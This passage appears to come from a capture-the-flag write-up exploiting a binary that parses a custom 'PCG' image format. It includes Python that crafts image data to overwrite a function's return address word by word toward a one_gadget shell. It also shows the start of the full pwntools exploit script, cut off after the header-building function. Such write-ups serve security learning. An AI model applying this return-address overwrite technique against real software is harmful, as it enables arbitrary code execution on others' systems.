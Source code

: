 Since we leaked both pcg address and libc, we can now calculate the diff between the return address of `show_color_statistics` and the one_gadget address.

However there some things we **must** note, our increasing ability is word based, hence, we'll need to increase every word of the return address seperatly, 
such that, at the end of the process, we'll have the one_gadget adderss as our return address.

Remembering that each byte in the image data can only increase a certain offset on the stack **once**, and the data is capped at 0xfffff (65535), if the total number of increasments we need to do exceeds that cap - we can't exploit.

"Luckily" (haha) aslr is turned on, so we might get lucky sometime (sploiler: we do, depending on the one_gadget we chose).

Heres a script that builds the image data that does what we described above:
``` Python
def get_data_to_change_ret_addr_to_execve(show_statistics_ret_addr, execve_bin_sh_addr):
    data = bytearray()

    lowset_word_diff = (((execve_bin_sh_addr & 0xffff) - (show_statistics_ret_addr & 0xffff))) & 0xffff
    second_lowest_word_diff = (((execve_bin_sh_addr & 0xffff0000) >> (8 * 2)) - (
            (show_statistics_ret_addr & 0xffff0000) >> (8 * 2))) & 0xffff
    third_lowest_word_diff = (((execve_bin_sh_addr & 0xffff00000000) >> (8 * 4)) - (
            (show_statistics_ret_addr & 0xffff00000000) >> (8 * 4))) & 0xffff

    # Overwriting the return address.
    for _ in range(lowset_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET])

    # Second address word
    for _ in range(second_lowest_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET + 1])

    # Third address word
    for _ in range(third_lowest_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET + 2])

    return data
```

Running the final exploit we get:
![image](https://user-images.githubusercontent.com/121199478/209024651-d2fff52f-e19b-4747-a130-54af2163a1fb.png)

# Final exploit
Here's the badly written complete exploit:
```Python
import struct

import pwn
from pwnlib.context import context

pwntools_send_size = 100

PCG_MAGIC = 0xFF474350
show_statistics_ret_rva = 0x1892
RBP_SIZE = 0x8
SHOW_STATISTICS_RET_ADDR_OFFSET = 0x10 + ((
                                                  0x40 - 0x30) + RBP_SIZE) // 2
RBP_MINUS_8_OFFSET = SHOW_STATISTICS_RET_ADDR_OFFSET + 0x8


def get_header(checksum, width, height, title_len, data_len):
    return struct.pack("<II3cH", PCG_MAGIC, checksum, bytes([width]), bytes([height]), bytes([title_len]), data_len)
```